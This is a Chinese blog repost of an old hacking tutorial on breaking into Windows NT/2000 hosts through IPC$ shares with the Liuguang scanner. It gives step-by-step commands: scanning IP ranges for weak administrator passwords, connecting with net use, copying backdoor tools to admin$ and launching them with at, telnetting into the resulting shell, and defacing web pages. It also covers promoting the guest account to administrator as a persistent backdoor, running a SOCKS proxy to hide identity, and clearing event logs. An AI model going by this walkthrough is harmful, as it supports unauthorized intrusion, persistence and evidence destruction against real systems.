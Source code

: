 ```yaml
---
layout: post
title: IPC$ 探测
tags: IPC$ 探测
categories: 🌐-NET
---
```

## IPC$ 探测 — 流光基础教程

IPC : interprocess communications
准确说 是 IPC$  是默认的在系统启动时候的 admin 共享.

是 windowsNT / 2k 特有的 远程网络管理登录功能

特点是: 同一时间内 两个 IP 之间 只允许建立一个连接.

试图通过 ipc$ 连接 会在 ecentlog 中留下记录. 不管你是否登录成功.



启动流光:
获得一台主机的管理权限  并将这个主机做成跳板,那么就可以用命中率高的办法来探测了.
即测试一批 IP 来获得弱口令.


在主界面选择“探测—探测 POP3/FTP/NT/SQL 主机”选项。或者直接按 CTRL+R，然后弹出 
“主机扫描设置”对话框。 

3：输入我们要破解的IP 段，在选项中我们把“frontpage”主机自动加入HTTP 主机列表取 
消。因为我们只想获得IPC 弱口令，这样可以加快扫描的速度，加入IP，选择扫描NT/98 主 
机，需要说明的是这里我们可以选择的还有很多，包括SQL/FTP/POP3 等等，灵活运用可以给 
我今后的探测工作带来很大的方便 

4：探测中„„ 
警告：如果你要探测的是流光保留的国内IP 段会被禁止的，也就是探测的时候信息栏会出 
现“IP 保留”的字样，免得初学HACKER 的你误伤国内的站点的同时给自己带来麻烦！ 

5：扫描到的NT/98 主机列表（我就不贴了） 

6：没有扫描到密码的，就不用看报告了 

7：有了 NT/98 的机器了，就可以正式开始 IPC$，右键点击谈探测的“IPC$主机—探测—探 
测所有IPC$用户列表”。或者按键盘的CTRL+F9 

8：注意下面两个复选框的设置，把两个都选上，因为我们只要 ipc$管理员的弱口令，而且 
只要有一个就可以了，然后点“选项”。 

9：点“选项”后，弹出“用户列表选项”对话框，为了加快弱口令扫描速度，我们把它全部 
取消，比如第二个选项，既然对方景致列出用户了，我想对于一个网管来说，弱口令可能性 
也是微乎其微的 


10：探测中„„很快就出现破解成功的提示，上面的FTP 主机（IP192.168.0.1）也有了相应 
的变化。 

11：又出现查看报告的窗口，这次有结果，当然要仔细看看 

12：有远程主机的管理密码了，我们剩下的就是想办法控制他了，有什么好办法呢？当然有 
很多了，比如在“工具——NT/IIS 工具”菜单下，这些我们以后在说，今天还是先练习NET 
命令吧，这样有利于我们了解这些命令究竟是在完成些什么样的功能 

13：目标是如何被黑的 
开个DOS 命令提示符窗口执行命令如下命令 “||”后面是说明 
1）net use \对方IPipc$“密码” /user：“用户名”||与对方建立ipc$ 远程连接 
2）copy icmd.exe \对方ipadmin$ ||admin$是对方的winnt 目录，这里存放文件多 
3）net time \对方ip ||查看对方的系统时间 
4）at \对方ip 程序启动的时间 启动程序名 启动程序的参数 ||用at 命令来定时启动程 
序，在这里我们用soon 这个程序来做也可以，它可以取代3/4 两步。 
5）tenlent 对方ip 端口 ||通过远程服务端口远程登陆目标主机 
6）输入pass（口令） ||如果不是就用icmd.exe，或者没有设置口令就不用了 
7）在开个窗口，继续copy我们要用的东西，copy sock.exe、copy ntlm.exe、copy vclear.exe。 
如果我们真的想黑了它，只需要把我们的首页文件覆盖目标的首页就OK 了。我们可以通过在 
跟目录执行dir /s default.htm 或者dir /s index.htm 来确定对方的首页的位置，一般是 
在X：interpubwwwroot 就可以用修改好的首页覆盖对方的首页 
8）其实黑人家是很不道德的而且违法的，我们最还是物有所值，做成跳板吧，今后干活方便 
点。执行我们copy 过去的ntlm.exe 取消登陆验证。再给自己留个后门，比如提升guest 的 
权限，或者其他的后门工具，这类东西有很多，自己选吧 
9）做个sock5 代理玩玩，用在QQ 上面不错哦 
执行我们copy 过去的sock -install,net start skserver ,看看用在QQ 上的效果，这样 
就可以隐藏自己的真实身份了，而且在局域网也可以通过服务器上QQ 了 
10）问题思考：还能够做成其它的吗？ 
当然了，只要你有时间，而且愿意做，一个个人专用的服务器在你面前，你想做什么都可 
以 


14：日志清除，断开连接： 
支持我们copy 过去的cl.exe clear.exe 都可以清除日志，比如clear all ：清除所有日 
志。然后断开连接：net use \对方 IPIPC$ /delete 这一步是必须的，尤其是在一些有争 
议的站点上，或者是国内的站点，除非你想让电视报导XXX 地区又捕获黑客一名XXX 







IPC$的定义：IPC$是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，在远程管理计算机和查看计算机的共享资源时使用。
IPC$的作用：利用IPC$可以与目标主机建立一个空的连接(无需用户名与密码)，而利用这个空的连接，我们就可以得到目标主机上的用户列表。用“流光”的IPC$探测功能，可以得到用户列表，并配合字典，进行密码尝试。
IPC$空连接主机步骤：
1、首先要扫到能建立IPC$空连接的主机，有了目标才能进攻，推荐使用安全焦点的xscan_gui v1.3，该软件使用方法很简单，而且速度快，也许还能扫出其他漏洞。
2、详细了解NET命令，做IPC$空连接主机是不可不知NET命令使用的。
3、如果知道对方的用户名和密码，就用下面这个命令：
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
退出的命令是：
net use \\127.0.0.1\ipc$ /delte
4、大部分情况下我们都不知道对方机器的用户名和密码。这就需要知道他的IP，我们使用用ping命令，格式为：ping www.xxx.com(如果用QQ聊天更简单，现在好多QQ都显IP的)， 用追捕查他的操作系统，用户名等。现在信息都有了，然后大家试试弱智点的密码，如:123，12345，123456，用户名就是Administrator。运气好的话就可以进入了。
5、实在猜不出密码的话就只有用榕哥的大作――流光，运行探测――扫描POP3/FTP/NT/SQL主机，会出现“主机扫描设置”，在“扫描范围”中分别填写“开始地址”与“结束地址”，这步你可以选择要扫描的IP段，也可以只填某一IP，扫描主机类型”选择“NT/98”，然后开始扫描，如果单扫某一IP，我建议扫描主机类型选ALL，选项选中的内容不要取消，这样可以看看他的机器是什么颜色的，具体表示看下表：
红色：该主机安装了FrontPage扩展，并没有权限设置。如果扫到红色的，你可以打开FrontPage，在打开那里填上他的IP地址，接着你就知道怎么做了。
蓝色：表示该主机上安装了FrontPage扩展。
黑色：远程执行命令。你可以单击该主机――连接，就可以用DOS命令操作远程计算机，如:dir c:\\
黄色：直接下载对方SAM文件(SAM文件是NT下储存用户和密码的文件，下载后用LC3可以解开)。
绿色：将对方SAM文件上传到指定的FTP服务器。
6、现在知道了他主机的情况，就可以开始探测他的用户列表了！右键点IPC$主机－探测－探测所有IPC$用户列表，下面两个对话框的设置都选上，我们只要IPC$管理员的弱口令。在结果点击右键，探测用户列表，Administrstor(超级用户)直接探测到ADMIN的密码，如果实在不行，我们还可以拿其他用户“开刀”，然后在想办法让他变成超级用户。
7、得到用户名和密码我们就可以连接了。打开win2000下的cmd.exe(也就是命令提示符)。然后重复第二步教过的连接连接命令:
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
成功连接后显示命令成功完成。
8、现在你可以用copy命令把你想要上传的东西放到他的机器里。
9、如果你想黑他页面的话就找到网页所在的目录，如:c:\inetpub\wwwroot，用命令：
copy c:\index.htm \\IP地址\c$\inetpub\wwwroot
这里的c:\index.htm指的是你作好的网页，上传替换掉原先的文件就可以改他的主页。
其他的操作方式就自己开发吧！以下提供几条有用的命令：
建立空连接
net use \\IP\ipc$ ”" /user:”"
建立非空连接
net use \\IP\ipc$ ”用户名” /user:”密码”
映射默认共享
net use z: \\IP\c$ ”密码” /user:”用户名” （即可将对方的c盘映射为自己的z盘，其他盘类推）
如果已经和目标建立了ipc$，则可以直接用IP+盘符+$访问,具体命令：
net use z: \\IP\c$
删除一个ipc$连接
net use \\IP\ipc$ /del
删除共享映射
net use c: /del 删除映射的c盘，其他盘类推
net use * /del 删除全部,会有提示要求按y确认
经典入侵示例
1.C:\>net use \\127.0.0.1\IPC$ ”" /user:”admintitrators”
这是用《流光》扫到的用户名为administrators，密码为”空”的IP地址，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为”空”，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。
2. C:\>copy srv.exe \\127.0.0.1\admin$
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。
3.C:\>net time \\127.0.0.1
查查时间，发现127.0.0.1 的当前时间是2005/5/1上午11:00，命令成功完成。
4.C:\>at \\127.0.0.1 11:05 srv.exe
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然无法启动）。
5.C:\>net time \\127.0.0.1
再查查到时间没有，如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。
6.C:\>telnet 127.0.0.1 99
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了。
7.C:\>copy ntlm.exe \\127.0.0.1\admin$
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。
8.C:\WINNT\system32\>ntlm
输入ntlm启动（这里的C:\WINNT\system32\>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现”DONE”的时候，就说明已经启动正常。然后使用”net start telnet”来开启Telnet服务！
9.Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！然后你想做什么就做什么吧。
为了以防万一,我们再把guest激活加到管理组。
10.C:\>net user guest /active:yes
将对方的Guest用户激活。
11.C:\>net user guest 1234
将Guest的密码改为1234,或者你要设定的密码。
12.C:\>net localgroup administrators guest /add
将Guest变为Administrator (如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机) 。
其他操作就看您的能力和水平了，自己揣摩吧！
注：此为本人几年前收藏的经典网文，虽然好多命令和工具均已无法正常运行，但其思路和方法仍然值得网络安全爱好者学习，在此向原作者表示致敬！




流光5 
